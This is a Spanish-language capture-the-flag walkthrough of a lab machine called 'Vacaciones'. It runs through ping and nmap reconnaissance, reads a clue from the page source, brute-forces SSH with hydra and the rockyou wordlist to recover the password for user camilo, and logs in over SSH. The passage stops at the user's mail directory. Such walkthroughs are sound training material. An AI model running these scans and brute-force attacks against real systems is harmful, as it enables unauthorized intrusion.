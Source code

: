 # Vacaciones

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
  PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzT6jdfo9QUX+9zCmyJQNTcAJXdhXByneCfqA9I7cXPBFGDGgxNAfQdoiqH3EMiTjf+maPlCNyVHGFl+sClQa5sJwdrbWZiJPxfxGkCtWiSrRdKKUKt/7rCMKMOy79bFRvurgss+57tsglfXkE9FPkZGd3mLruXt5Lyb+8uhFWpW58Df6ZUoSsJi7n0bkXNpEzJAzYHNmRRtv0RsGDFosi/t5KUCMPX67jbM8jsApIVwFIQBTiwzwGQn33G2ZoAJy/NYZ9dkuN2cKM2uItovo25daA+0/SxEfHqAHGquvoMKSj8pcX3qZVD7cGWlsn9c5QNzHRC2DZUSHrK7UIaG0r
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMD2Z/ZotorXbs6zP9Sg9XenjSX0HIjYjoEH2cAV7aDoQXZKrssz5AJ98j8b4ntOPGfVehrcRv9X7lKswOea9HM=
|   256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK/0ZadHoPSGKg31xFAhPaX854MMS09s5JgdzqmD3jCl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Como no tenemos ningún usuario todavía vamos a ver qué tenemos en la página http://172.17.0.2 y a simple vista no tenemos nada pero si miramos el código fuente vemos un mensaje.
```
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```
Ya tenemos dos posibles usuarios, como parece que somos Camilo vamos a aprovechar el puerto 22 (SSH) para con hydra y fuerza bruta intentar descubrir la contraseña.
```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
```
❯ hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-16 17:45:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-16 17:45:47
❯ 
```
Obtenemos un password para el usuario camilo y como nos indicaba el mensaje que nos han dejado un correo importante, vamos a conectarnos por ssh y ver si podemos ver el correo.

```bash
❯ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
Last login: Thu May 16 15:33:49 2024 from 172.17.0.1
$ whoami
camilo
$
```
Vamos a leer el correo que nos había dejado Juan, el directorio donde se guardan los correos es **/var/correo**
```bash
cd /var/mail/camilo
```

